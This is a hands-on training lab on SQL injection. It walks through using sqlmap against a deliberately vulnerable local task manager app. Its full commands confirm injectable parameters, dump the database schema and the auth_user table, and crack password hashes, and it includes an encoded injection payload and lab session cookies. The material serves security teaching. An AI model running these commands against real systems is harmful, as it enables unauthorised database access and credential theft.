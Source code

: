 # SQL Injection (15 Minutes)
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
#### sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check
- `-r REQUESTFILE` Load HTTP request from the following file

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection

#### Step 1 - Validate SQL Injection Vulnerability
Navigate back to the login page of vtm and login as `chris` with password `test123`

![vtm dashboard](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-chris-dashboard.png)

Browse to the *Marketing Campaign* project from the dashboard

![vtm project detail](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-details.png)

Check whether the URL project id, embedded between *taskManager* and *project_details* is vulnerable to sql injection by adding ` OR` (that's *space*OR) after the number 7.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-sql-error.png)

#### Step 2 - Setup sqlmap to exploit the project details SQL Injection vulnerability

Since this page is only accessible to authenticated users, we will need to pull the cookie value associated with `chris` and add it to the sqlmap request.

Get all of the cookie headers using the browser's developer tools or viewing the request in Burp Suite. The request for the project details page will look similar to the following:

```
GET /taskManager/7/project_details/ HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc
```

Since we currently don't know which of these values are required for user authorization, copy the entire string for use with sqlmap.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7/project_details/" --cookie="csrftoken=CMk8epAzX7UDyXl2R0zBa2yfmZ8muICjJ7L2ZmUpKV962mlRNSthtANTaVkYubI0; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0olo:wR61ZH3DwyceV4rXFs5WCkw-lXQ" --current-db
```

Running this command with the proper cookie value does not result in a successful sqlmap session, but will output something similar to the following:

```
[14:16:00] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:16:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
[14:16:00] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 127 times
```

Since sqlmap does not recognize the project id parameter embedded in the URL, use the `*` character to denote where the injection should take place

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --current-db
```

#### Step 3 - Exploit the project detail SQLi to harvest user credentials

Not that we know this injection point is valid, let's attempt to enumerate the *auth_user* table within the *vtmdb* database by appending `--dump -D vtmdb -T auth_user` to the sqlmap command.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --dump -D vtmdb -T auth_users
```

Allow sqlmap to run a brute-force attack against the identified md5 hashes and you should get information about most of the vtm accounts.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-sqlmap-auth-user.png)

Congratulations! Test out `dade`'s password to verify that the credentials are active.

## Challenges


| Challenge | Difficulty |
| ---- | ---- |
| Altoro Mutual | http://demo.testfire.net |
| Bypass Login | :star: |
| All your transaction belong to us and so do your DBs,tables,columns,usernames,and passwords | :star::star::star: |

